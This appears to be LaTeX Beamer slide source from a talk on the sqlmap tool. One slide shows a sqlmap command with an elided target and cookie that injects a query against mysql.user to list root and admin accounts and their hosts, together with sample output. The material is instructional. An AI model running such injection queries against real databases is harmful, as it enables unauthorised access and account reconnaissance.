 \documentclass[xcolor=pdftex,table,10pt]{beamer}
\begin{document}

\begin{frame}[fragile]
	\begin{center}
	Retrieve database server IP address 
	\end{center}
	\begin{columns}	
	\begin{verbatim}	
	$ python sqlmap.py -u ... --cookie ... 
	--sql-query=
	  "SELECT host, user FROM mysql.user 
	  WHERE user LIKE '%root%' OR user LIKE '%admin%'"
	
	SELECT host, user FROM mysql.user 
	  WHERE user LIKE '%root%' OR user LIKE '%admin%' [4]:
	[*] 127.0.0.1, root
	[*] localhost, phpmyadmin
	[*] localhost, root
	[*] zara, root

	\end{verbatim}
	\end{columns}
\end{frame}

\begin{frame}
	\begin{center}
		Reference \\
	\end{center}
	\begin{itemize}
		\item \href{http://www.slideshare.net/stamparm/euro-python-2011miroslavstamparsqlmapsecuritydevelopmentinpython}{sqlmap - security development in python, Miroslav Stampar, EuroPython 2011}
	
	\end{itemize}	
\end{frame}

\begin{frame}
\begin{center}
\LARGE \textrm{.finish}
\end{center}
\end{frame}	
\end{document}
